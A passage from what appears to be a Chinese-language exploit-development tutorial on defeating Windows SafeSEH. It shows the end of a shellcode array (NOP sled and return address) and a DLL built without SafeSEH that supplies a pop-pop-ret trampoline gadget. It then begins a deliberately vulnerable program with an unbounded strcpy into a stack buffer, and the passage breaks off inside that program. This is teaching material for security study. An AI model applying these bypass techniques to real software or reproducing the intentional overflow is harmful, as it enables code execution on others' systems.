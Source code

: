 ```plain
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0xA0, 0x79, 0x68, 0x00 
};
```

这样我们就可以利用 SafeSEH 保护机制在堆区有特权的特性，即可执行 shellcode。

## 4.利用未启用 SafeSEH 的模块突破 SafeSEH

大家回想一下前面我们讲过的 SafeSEH 的校验，如果说异常处理不在本模块中怎么办？如果说该模块未启用 SafeSEH，就可以执行。  
那我们新的攻击思路就出来了：我们可以将异常处理指针指向一个未启用 SafeSEH 的模块，在这个模块中找一些指令，作为跳板地址，是不是就可以跳转到我们的 ShellCode 上执行？  
我们来详细看看这中突破方法：  
首先，我们需要一个未启用 SafeSEH 的模块，这里我们创建一个动态链接库，让程序调用：

```plain
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

void jump() {
    __asm {
        pop eax
        pop eax
        retn
    }
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

然后我们编写存在漏洞的程序：

```plain
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

char MyPayload[500];

DWORD MyException(void) {
    printf("This is My exception!");
    getchar();
    return 1;
}

void test(char* szBuffer) {
    char str[200]{ 0 };
    strcpy(str, szBuffer);
    int zero = 0;
    __try {
        zero = 1 / zero;
```